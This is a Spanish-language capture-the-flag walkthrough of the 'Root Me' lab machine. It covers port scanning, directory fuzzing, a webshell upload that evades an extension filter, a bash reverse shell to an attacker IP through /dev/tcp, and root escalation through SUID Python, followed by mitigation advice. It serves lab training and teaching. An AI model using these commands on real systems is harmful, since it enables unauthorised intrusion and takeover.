










# 🔓 Root Me

## Reconocimiento

Primero realizamos un escaneo de puertos usando **Nmap**:

```bash
sudo nmap -p- -sSVC --open --min-rate 5000 -Pn 10.10.113.124 -vvv -oN escaneo.txt
```

* **-p-**: Indica que escanee todos los puertos.
* **–open**: Muestra solo puertos abiertos.
* **-sS**: **SYN Scan**, también conocido como _half-open scan._ No completa la conexión con el destino, lo que hace el escaneo un poco más rápido y difícil de detectar.
* **-sC**: Activa la ejecución de scripts de predeterminados Nmap Scripting Engine (NSE).
* **-sV**: Encuentra la **versión de servicio** que corre en cada puerto.
* **–min-rate**: Fija la **cantidad mínima** de paquetes para enviar por segundo.
* **-Pn**: **Null Ping**. Se usa por si el servidor esta bloqueando trazas **ICMP**.
* **-vvv**: Triple verbose. Hace que imprima la información mientras la va encontrando. Se puede modificar la cantidad de “v”, el máximo es 3.
* **-oN**: Se utiliza para guardar los resultados del escaneo en un archivo de salida en **formato normal** (normal output). Siempre va acompañado del nombre del archivo donde se guardara.

<figure><figcaption></figcaption></figure>

Este escaneo nos muestra que la máquina tiene abiertos los puertos: **80(HTTP)** y **22(SSH)**.

Exploramos la página web y no encontramos nada dentro del código fuente.

<figure><figcaption></figcaption></figure>

### Fuzzing

Para hacer fuzzing usamos **Gobuster**:

```bash
gobuster dir -u http://10.10.113.124 -w /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt -t 40
```

Encontramos dos directorios interesantes: **/panel** y **/uploads**

<figure><figcaption></figcaption></figure>

Entramos al directorio de **/panel** y descubrimos con que se pueden subir archivos.

<figure><figcaption></figcaption></figure>

Creamos un archivo **PHP** para obtener una **Webshell**.

<figure><figcaption></figcaption></figure>

## Explotación

Intentamos subir un archivo con extensión **.php**, pero la página no permite ese tipo de archivos. Luego probamos con **.pthml**, con el que tenemos éxito.

<figure><figcaption></figcaption></figure>

Accedemos a la ruta **/uploads**, donde se encuentra el archivo que subimos. Hacemos clic sobre él para verificar que nuestra webshell funcione.

<figure><figcaption></figcaption></figure>

Una vez confirmada su funcionalidad, enviamos una **reverse shell** para poder trabajar más cómodos desde consola. El comando que utilizaremos es

```bash
bash -c "sh -i >& /dev/tcp/10.9.0.2/443 0>&1"
```

Primero, codificamos el comando en formato **URL** utilizando el **Encoder** de **Burpsuite**. Luego, copiamos el comando codificado y lo pegamos en la URL (asegurándonos de tener **netcat** escuchándolo).

<figure><figcaption></figcaption></figure>

Hacemos un tratamiento a la bash para trabajar más cómodos y después buscamos la **flag del usuario.**

```bash
find / -name user.txt 2>/dev/null
```

<figure><figcaption></figcaption></figure>

## Escalada de privilegios

Después de encontrar la flag de user, necesitamos escalar privilegios para acceder a la **flag de root**. Buscamos archivos con permisos **SUID**:

```bash
find / -perm -4000 2>/dev/null
```

<figure><figcaption></figcaption></figure>

Encontramos que **Python** tiene permisos **SUID**. Consultamos en [GTFObins](https://gtfobins.github.io/) para ver cómo explotarlo para la escalar privilegios.

Aplicamos el comando encontrado:

```bash
/usr/bin/python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```

Con esto, obtenemos una **shell** con privilegios elevados y finalmente accedemos a la **flag de root**.

<figure><figcaption></figcaption></figure>

## Recomendaciones de Mitigación

1. Validación de archivos subidos:
   * Permitir solo extensiones específicas y validar el contenido del archivo.
   * Renombrar archivos subidos para evitar ejecuciones maliciosas.
2. Restringir ejecución en directorios públicos:
   * Configurar los permisos del servidor web para impedir la ejecución de scripts en directorios como **/uploads.**
3. Gestión de permisos **SUID:**
   * Revisar y eliminar archivos con permisos **SUID** innecesarios para prevenir escaladas de privilegios.
4. Cierre de puertos innecesarios:
   * Utilizar **Firewall** para limitar los puertos expuestos y reducir la superficie de ataque.
5. Actualización y monitoreo continuo:
   * Mantener los sistemas actualizados y monitorear la actividad para detectar comportamientos sospechosos.
